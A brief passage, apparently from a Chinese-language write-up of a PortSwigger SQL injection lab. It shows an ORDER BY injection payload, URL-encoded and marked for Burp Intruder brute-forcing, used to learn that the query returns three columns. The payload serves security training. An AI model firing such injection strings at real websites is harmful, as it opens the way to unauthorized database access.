 order by确定返回列数：

payload:

```javascript
Clothing%2c+shoes+and+accessories'order+by+§1§--+
```

爆破1，确定有三个字段

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/SQL/images/0BBDF41C0D9E4776AE6ABA05A5C24171clipboard.png)

